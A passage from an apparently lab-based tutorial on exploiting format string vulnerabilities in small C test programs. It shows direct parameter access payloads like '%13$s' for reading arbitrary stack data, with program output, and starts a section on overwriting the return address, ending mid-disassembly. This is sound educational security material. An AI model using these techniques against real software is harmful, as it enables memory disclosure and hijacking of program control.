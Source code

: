 So, the program crashed because it can't find something useful at the addresss, for instance from the output above, of value `100` or `40`. These values are not the right address. And that's why you need to know about direct parameter access. In other words, you don't need to input chains like `%x.%x.%x.%x.%x.%x.%x.%x.`, you can access, for example, the `0x41414141` value from the output above, with this string `%13$s`. 13 is the number of the parameter in the format string, which is the beginning of our string. BUT. The format specifier `%s` is waiting for the address, but we will give it the value `0x41414141`.
```bash
$ ./read-arbitrary-data
asfasfa
Access denied.
AAAA%13$s
Segmentation fault (core dumped)
```

The program crashed.

Thus, with a little brute-force of the direct parameter access number or just specify the needed address at the beginning of the input string, you can read arbitrary data. Let's read the strings `Access denied.` and `Access granted.` which are just before our input string.
```bash
$ ./read-arbitrary-data
asfsadfas
Access denied.
AAAA%11$s%12$s
Say goodbye!!!AAAAAccess granted.
Access denied.

```

## Jump to an arbitrary address

Now you know how to read data that is not meant to be read. Then try writing some data, and here I will show you how to write an arbitrary address into the return address in the `format-string` binary so that you can jump to it later. You got to do disabling security techniques such as ASLR again.

### Determine where the return address is stored within the stack

Firstly, place the breakpoint on the last instruction.
```bash
gef➤  disas main
Dump of assembler code for function main:
   0x080491b6 <+0>:	endbr32
   0x080491ba <+4>:	lea    ecx,[esp+0x4]
   0x080491be <+8>:	and    esp,0xfffffff0
   0x080491c1 <+11>:	push   DWORD PTR [ecx-0x4]
   0x080491c4 <+14>:	push   ebp
   0x080491c5 <+15>:	mov    ebp,esp
   0x080491c7 <+17>:	push   ebx
   0x080491c8 <+18>:	push   ecx
   0x080491c9 <+19>:	sub    esp,0xd0
   0x080491cf <+25>:	call   0x80490f0 <__x86.get_pc_thunk.bx>
   0x080491d4 <+30>:	add    ebx,0x2e2c
   0x080491da <+36>:	mov    eax,ecx
   0x080491dc <+38>:	mov    eax,DWORD PTR [eax+0x4]
   0x080491df <+41>:	add    eax,0x4
   0x080491e2 <+44>:	mov    eax,DWORD PTR [eax]
   0x080491e4 <+46>:	sub    esp,0x4
   0x080491e7 <+49>:	push   0xc8
   0x080491ec <+54>:	push   eax
   0x080491ed <+55>:	lea    eax,[ebp-0xd0]
   0x080491f3 <+61>:	push   eax
   0x080491f4 <+62>:	call   0x8049090 <strncpy@plt>
   0x080491f9 <+67>:	add    esp,0x10
```